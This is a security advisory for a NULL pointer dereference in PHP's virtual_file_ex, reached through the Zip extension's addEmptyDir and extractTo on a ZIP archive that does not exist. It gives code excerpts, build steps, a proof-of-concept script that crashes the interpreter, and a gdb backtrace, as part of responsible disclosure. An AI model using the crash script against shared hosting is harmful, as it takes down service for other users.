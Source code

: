 # PHP NULL pointer dereference in virtual_file_ex #

* _Author_: Martino Sani 
* _Release date_: 2016-02-09
* _Software_: www.php.net
* _Version_: master-Git-2016-02-09 (Git)
* _Reference_: https://bugs.php.net/bug.php?id=71561
* _CVE_: -

## Description ##

A malicious user could create an evil php script in order to crash the PHP interpreter. The issue could compromise the availability of the PHP interpreter in the web hosting services, where the PHP interpreter could be shared among some users.

`virtual_file_ex` method in the `zend_virtual_cwd.c` file uses a `char *` argument that could be NULL.
I identified this issue through `extractTo` method in the PHP Zip extension, opening a not existing ZIP archive.

`zend_virtual_cwd.c`:
```c
CWD_API int virtual_file_ex(cwd_state *state, const char *path, verify_path_func verify_path, int use_realpath) /* {{{ */
{
    // path could be NULL
    int path_length = (int)strlen(path);
```
The issue is triggerable via `addEmptyDir` and `extractTo` Zip extension methods, if not existing zip archive will be opened.  
Vulnerable code into `extractTo` method (`php_zip.c`) is shown below:
```c
/* Extract all files */
// zip_get_num_files returns 1 (intern->nentry is equal to 1) because, I think, addEmptyDir incremented it.
int filecount = zip_get_num_files(intern);

if (filecount == -1) {
    // ...
}

for (i = 0; i < filecount; i++) {

    // zip_get_name returns NULL
    char *file = (char*)zip_get_name(intern, i, ZIP_FL_UNCHANGED);

    // php_zip_extract_file uses virtual_file_ex
    if (!php_zip_extract_file(intern, pathto, file, strlen(file))) {
        RETURN_FALSE;
    }
}
```
**PHP builded using the following commands:**
```
./buildconf --force
./configure --prefix=/opt/php --enable-debug --enable-zip
make && make install
```

**Test script:**
```php
<?php

$zip = new ZipArchive();

// Open a not existing zip file
$zip->open("/dev/shm/notexisting.zip", ZIPARCHIVE::CREATE);

$zip->addEmptyDir("foo");

// Program terminated with signal SIGSEGV, Segmentation fault.
$zip->extractTo("/dev/shm/");

$zip->close();

?>
```
**Expected result:**

PHP interpreter should not crash.

No actions could be performed by `extractTo` method because the zip
file does not physically exist, or the "in-memory" zip archive
could be handled as a normal archive (if possible).
   
**Actual result:**

PHP interpreter crash with a SIGSEGV.
   
```
$ gdb) where
#0  strlen () at ../sysdeps/x86_64/strlen.S:106
#1  0x000000000079055a in c_ziparchive_extractTo (execute_data=0x7f3656a15120, return_value=0x7f3656a15100) at /php-src/master/src/ext/zip/php_zip.c:2671
#2  0x0000000000891c3a in ZEND_DO_FCALL_SPEC_RETVAL_UNUSED_HANDLER () at /php-src/master/src/Zend/zend_vm_execute.h:1024
#3  0x0000000000890610 in execute_ex (ex=0x7f3656a15030) at /php-src/master/src/Zend/zend_vm_execute.h:422
#4  0x0000000000890721 in zend_execute (op_array=0x7f3656a82000, return_value=0x0) at /php-src/master/src/Zend/zend_vm_execute.h:466
#5  0x00000000008362e8 in zend_execute_scripts (type=8, retval=0x0, file_count=3) at /php-src/master/src/Zend/zend.c:1427
#6  0x00000000007a76ae in php_execute_script (primary_file=0x7ffd6efe8db0) at /php-src/master/src/main/main.c:2484
#7  0x0000000000908079 in do_cli (argc=3, argv=0x18a1c40) at /php-src/master/src/sapi/cli/php_cli.c:974
#8  0x0000000000909043 in main (argc=3, argv=0x18a1c40) at /php-src/master/src/sapi/cli/php_cli.c:1345
```
## NOTES ##

* 2016-02-09: Vendor notification.
* 2016-02-09: Vendor fixes the issue.

The author is not responsible for the misuse of the information provided in this advisory.

